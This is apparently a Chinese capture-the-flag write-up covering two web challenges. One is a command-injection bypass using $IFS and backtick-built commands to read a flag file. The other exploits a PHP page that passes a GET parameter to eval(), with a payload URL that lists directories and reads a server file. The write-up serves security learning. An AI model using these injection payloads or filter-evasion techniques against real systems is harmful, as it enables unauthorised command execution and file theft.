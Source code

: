  - 空格使用$IFS代替
 - flag.php用ls出的文本替代（这里ls出来两个文件，用`ls|head -1`取首个文件即可）
 - 最后用cat竟读不出来文件??于是用tac代替之
 - payload如下
```
a=ls;b=head$IFS-1;c=tac$IFS;d=`$a|$b`;$c$d
# cat not work, use tac
```
![ping2](./ping2.png)

### HardCore PHP
 - 访问`http://imagin.vip:10052/`得源码
```php
 <?php
if (isset($_GET['a'])) {
    eval($_GET['a']);
} else {
    show_source(__FILE__);
}
```
 - `eval($_GET['a'])`可以执行命令
 - 于是查看目录下有哪些文件
 - 找到了`aaa.txt`
 - 用`highlight_flie`读出来即是flag
 - payload
```
http://imagin.vip:10052/?a=$con=getcwd();echo $con;$filename = scandir($con);echo " <pre>";print_r($filename);highlight_file( "/var/www/html/aaa.txt");
```